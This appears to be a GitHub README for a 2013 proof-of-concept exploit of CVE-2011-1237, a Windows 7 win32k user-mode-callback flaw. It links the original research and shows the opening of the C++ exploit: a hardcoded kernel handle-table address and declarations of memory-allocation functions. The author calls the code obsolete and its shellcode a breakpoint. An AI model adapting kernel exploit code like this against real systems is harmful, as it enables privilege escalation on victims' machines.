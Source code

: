 INFO
----

    ## CVE-2011-1237

    This is an old POC for CVE-2011-1237 on Windows 7 written in 2013. The
    vulnerability was discovered by Tarjei Mandt ([@kernelpool](https://twitter.com/kernelpool))
    and explain in his paper [Kernel Attacks through User-Mode Callbacks](https://media.blackhat.com/bh-us-11/Mandt/BH_US_11_Mandt_win32k_WP.pdf).

    Several things are hardcoded in this POC and it call the Null page which does
    not work anymore. The exploit is describe in my talk
    [A Look into the Windows Kernel](https://lse.epita.fr/lse-summer-week-2013/slides/lse-summer-week-2013-26-Bruno%20Pujos-A%20Look%20into%20the%20Windows%20Kernel.pdf).

    The only thing the shellcode does is trigger a breakpoint.

EXP
---

    #include <afxwin.h>
    #include <iostream>

    // this should not be in hard, it's the addr of the handle table stored
    // in win32k!gSharedInfo
    #define BEGIN_HTABLE 0xbc510000

    int c = 0;
    HWND win;
    HWND win2;
    HWND win3;
    HWND win4;
    HWND destroy;

    PVOID FakeWin;
    PVOID FakeWin2;
    wchar_t str[82];

    NTSTATUS (NTAPI *NtAllocateVirtualMemory)
    (
        IN HANDLE ProcessHandle,
        IN OUT PVOID *BaseAddress,
        IN ULONG ZeroBits,
        IN OUT PULONG AllocationSize,
        IN ULONG AllocationType,
        IN ULONG Protect
    );

    NTSTATUS (NTAPI *NtFreeVirtualMemory)
    (
        IN HANDLE ProcessHandle,
        IN OUT PVOID *BaseAddress,
        IN OUT PSIZE_T RegionSize,
        IN ULONG FreeType
    );
